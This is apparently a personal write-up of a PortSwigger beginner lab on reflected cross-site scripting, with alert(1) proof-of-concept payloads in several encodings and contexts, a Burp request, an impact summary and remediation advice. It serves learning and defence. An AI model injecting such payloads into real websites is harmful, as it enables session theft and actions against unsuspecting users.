

# Reflected XSS – PortSwigger Beginner Lab

**Date:** 2025-09-02  
**Lab:** Reflected XSS into HTML context (PortSwigger Web Security Academy)  
**Host:** `<paste-lab-host-here>`

**Finding:** Reflected Cross-Site Scripting (XSS) in `/?search=`  
**Severity:** Medium (High if sensitive session actions exist)  
**CWE:** CWE-79

**Endpoint / Parameter:** `/` (query parameter `search`)  
**PoC payload (raw):** `<script>alert(1)</script>`  
**PoC payload (URL-encoded):** `%3Cscript%3Ealert(1)%3C%2Fscript%3E`

---

## Reproduction Steps

1. Navigate to `https://<lab-host>/`.
2. In the Search box, submit: `<script>alert(1)</script>`  
   Or browse directly to:  
   `https://<lab-host>/?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E`
3. Observe the JavaScript alert dialog (screenshot `./evidence/ps-xss/alert-popup.png`).
4. Using Burp Repeater, send the following and confirm the payload is reflected unencoded:

```
GET /?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E HTTP/1.1
Host: <lab-host>
User-Agent: <your-user-agent>
Accept: text/html
Connection: close
```

> If the reflection is **not** in HTML text context:
>
> - **HTML attribute context:** use `">`  
>   URL-encoded: `%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E`
> - **JavaScript string context:** use `';alert(1);//` or `";alert(1);//`  
>   Encoded: `%27%3Balert(1)%3B%2F%2F` or `%22%3Balert(1)%3B%2F%2F`

---

## Impact (short)

Arbitrary JavaScript executes in the victim’s browser in the context of `<lab-host>`. An attacker could steal non-HttpOnly cookies, perform privileged actions on behalf of the user, or pivot to further attacks.

---

## Remediation

- Apply **contextual output encoding** for the `search` parameter (HTML text context).
- Implement a **server-side allow-list**: reject or sanitize `<`, `>`, quotes, and event-handler attributes for user input rendered in responses.
- Deploy a **Content Security Policy (CSP)**, for example:  
  `default-src 'self'; script-src 'nonce-<random>'; object-src 'none'; base-uri 'self'`.
- Set cookies with **HttpOnly**, **Secure**, and **SameSite** (`Lax`/`Strict`) as appropriate.

---

## Artifacts

- Screenshot(s):
  
  
  [Open File](../../evidence/ps-xss/alert-popup.png)

- Burp Repeater request/response:
  [request.txt](../../evidence/ps-xss/request.txt)

```
[paste the relevant request/response snippet here]
```

---

## Summary / Next Step

- ✅ Solved Reflected XSS with payload: `<script>alert(1)</script>`
- ✅ Evidence captured (alert popup + Burp request)
- ▶️ Next: try an attribute-context XSS lab or start the Basic SQL injection lab tomorrow
